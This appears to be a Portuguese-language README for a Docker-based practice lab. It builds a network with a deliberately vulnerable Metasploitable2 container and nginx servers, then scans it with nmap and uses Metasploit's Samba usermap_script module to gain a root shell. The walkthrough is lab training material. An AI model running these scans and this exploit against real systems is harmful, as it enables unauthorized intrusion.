

# setup da rede docker🌐

criando a rede docker &#x2013;>

    docker network create --driver bridge lab-cyber

# deploy dos containers 🐬

## metasploitable2

criando o container metasploitable2 -->

    docker run -d --name metasploitable2 \
      --network lab-cyber \
      --privileged \
      -it tleemcjr/metasploitable2 /bin/bash -c "/etc/init.d/rc 2 && /bin/bash"

## Servidores web nginx

criando os containers que simulam outros servers -->

    docker run -d --name srv-web-corp --network lab-cyber --privileged ubuntu/nginx:latest

    docker run -d --name srv-main --network lab-cyber --privileged ubuntu/nginx:latest

# 🔍 Verificação dos containers

containers rodando -->

    docker ps

verificando a network docker criada -->

    docker network inspect lab-cyber | grep -E "Name|IPv4Address"

# Acesso aos containers

acessando um dos servers como root -->

    docker exec -it -u 0 srv-main /bin/bash

# 🛡️ firewall setup

configurando o ufw para estudos em um dos containers (srv-main) -->

    ufw allow 80/tcp
    ufw allow from 172.18.0.0/24 to any port 22 proto tcp
    ufw allow from 172.18.0.3 to any port 445 proto tcp

# Recon no metasploitable2

serviços rodando no metasploitable2 -->

    sudo nmap -Pn -sS -p- 172.18.0.3

verificando o server message block (SMB) para vulnerabilidades &#x2013;>

    sudo nmap -sV -vv --script='smb-vuln-ms*' -p445 172.18.0.3 -oX result.xml

# RCE no Samba 

explorando o Samba 3.0.20 (usermapscript) para ganhar acesso root -->

    msfconsole -q
    use exploit/multi/samba/usermap_script
    set RHOSTS 172.18.0.3
    set LHOST 172.18.0.1
    exploit

verificando o acesso obtido -->

    whoami
    id

